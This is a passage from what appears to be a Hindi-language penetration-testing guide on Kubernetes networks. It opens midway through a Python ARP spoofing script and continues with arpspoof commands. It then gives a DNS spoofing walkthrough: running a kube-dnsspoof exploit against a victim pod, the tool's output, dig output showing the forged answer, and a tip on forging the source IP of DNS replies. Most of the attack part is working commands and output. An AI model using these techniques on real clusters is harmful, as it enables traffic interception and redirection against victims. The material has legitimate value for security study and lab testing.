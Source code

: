 ```python
spoofarpcache(targetip, targetmac, gatewayip)
spoofarpcache(gatewayip, gatewaymac, targetip)
except KeyboardInterrupt:
print("ARP spoofing stopped")
restorearp(gatewayip, gatewaymac, targetip, targetmac)
restorearp(targetip, targetmac, gatewayip, gatewaymac)
quit()

if __name__=="__main__":
main()

# To enable IP forwarding: echo 1 > /proc/sys/net/ipv4/ip_forward
```
{% endcode %}

### ARPSpoof
```bash
apt install dsniff
arpspoof -t 172.17.0.9 172.17.0.10
```
## DNS Spoofing

जैसा कि पहले ही उल्लेख किया गया है, यदि आप **DNS सर्वर पॉड** के उसी नोड में एक पॉड को **समझौता** करते हैं, तो आप **MitM** के साथ **ARPSpoofing** का उपयोग करके **ब्रिज और DNS** पॉड को **संशोधित** कर सकते हैं और **सभी DNS प्रतिक्रियाओं** को **बदल** सकते हैं।

आपके पास इसे परीक्षण करने के लिए एक बहुत अच्छा **टूल** और **ट्यूटोरियल** है [**https://github.com/danielsagi/kube-dnsspoof/**](https://github.com/danielsagi/kube-dnsspoof/)

हमारे परिदृश्य में, **हमलावर पॉड** में **टूल** को **डाउनलोड** करें और एक \*\*फाइल नाम `hosts` \*\* बनाएं जिसमें आप जिन **डोमेन** को **स्पूफ** करना चाहते हैं, उन्हें शामिल करें:
```
cat hosts
google.com. 1.1.1.1
```
ubuntu-victim मशीन पर हमला करें:
```
python3 exploit.py --direct 172.17.0.10
[*] starting attack on direct mode to pod 172.17.0.10
Bridge:  172.17.0.1 02:42:bd:63:07:8d
Kube-dns:  172.17.0.2 02:42:ac:11:00:02

[+] Taking over DNS requests from kube-dns. press Ctrl+C to stop
```

```bash
#In the ubuntu machine
dig google.com
[...]
;; ANSWER SECTION:
google.com.		1	IN	A	1.1.1.1
```
{% hint style="info" %}
यदि आप अपना खुद का DNS स्पूफिंग स्क्रिप्ट बनाने की कोशिश करते हैं, यदि आप **बस DNS प्रतिक्रिया को संशोधित करते हैं** तो यह **काम नहीं करेगा**, क्योंकि **प्रतिक्रिया** में **src IP** **दुष्ट** **पॉड** का IP पता होगा और इसे **स्वीकृत** नहीं किया जाएगा।\
आपको **नया DNS पैकेट** उत्पन्न करने की आवश्यकता है जिसमें **src IP** उस **DNS** का हो जहाँ पीड़ित DNS अनुरोध भेजता है (जो कुछ ऐसा है जैसे 172.16.0.2, न कि 10.96.0.10, यह K8s DNS सेवा का IP है और न कि DNS सर्वर का IP, इसके बारे में अधिक जानकारी परिचय में है)।
{% endhint %}
